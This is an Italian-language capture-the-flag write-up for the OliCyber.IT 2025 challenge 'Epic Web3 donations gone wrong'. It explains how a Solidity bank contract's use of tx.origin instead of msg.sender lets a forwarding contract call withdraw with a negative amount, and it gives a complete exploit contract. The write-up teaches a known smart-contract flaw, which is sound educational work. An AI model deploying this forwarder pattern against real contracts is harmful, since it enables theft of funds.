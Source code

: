 # OliCyber.IT 2025 - Competizione nazionale

## [misc] Epic Web3 donations gone wrong (9 solves)

Donate 1 coin to our local charity.

Site: [https://epic-web3-donations.challs.olicyber.it](https://epic-web3-donations.challs.olicyber.it)

Author: Giovanni Minotti <@giotino>

## Panoramica

La challenge si presenta come una piattaforma di donazioni Web3, dove gli utenti possono donare criptovalute a un ente di beneficenza utilizzando un conto bancario di qualsiasi banca (creato tramite uno specifico smart contract). Inoltre, gli utenti vengono ricompensati con una flag se possiedono un deposito presso la banca principale posseduta dalla piattaforma, ma non esiste alcun modo per depositare criptovalute.

## Soluzione

La funzione chiamata durante la donazione è `withdraw`

```solidity
function withdraw(address addr, int256 amount) public {
    require(tx.origin == teller, "Not a teller");
    balances[addr] -= amount;
    require(balances[addr] >= 0, "Insufficient balance");
}
```

Viene verificato se chi effettua la chiamata sia il cassiere (`teller`) e poi l’importo viene sottratto dal saldo dell’utente. Il problema è che viene usato `tx.origin` al posto di `msg.sender`, il che significa che qualsiasi contratto può chiamare questa funzione se è stato esso stesso chiamato dal cassiere.

L’exploit qui sotto simula una banca. Quando viene chiamata `withdraw`, essa invocherà la funzione `withdraw` della banca target (la banca principale posseduta dalla piattaforma) con un valore negativo, aggiungendo così fondi.
Dopo aver distribuito il contratto, possiamo usare il suo indirizzo come banca sulla piattaforma di donazioni e avviare una donazione. La piattaforma chiamerà la funzione `withdraw` del nostro contratto, che a sua volta chiamerà la banca target mantenendo `tx.origin` come cassiere.

Ora non resta che controllare il saldo (tramite la piattaforma) della banca principale e ricevere la flag.

## Exploit

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

interface ITxOriginBank {
    function withdraw(address _to, int256 _amount) external;
}

contract ExploitForwarder {
    address public targetBank;
    address public attacker;

    constructor(address _targetBank) {
        targetBank = _targetBank;
        attacker = msg.sender;
    }

    function withdraw(address, int256) external {
        ITxOriginBank(targetBank).withdraw(attacker, -9999);
    }

    function getBalance(address addr) public view returns (int256) {
        return 9999;
    }
}
```
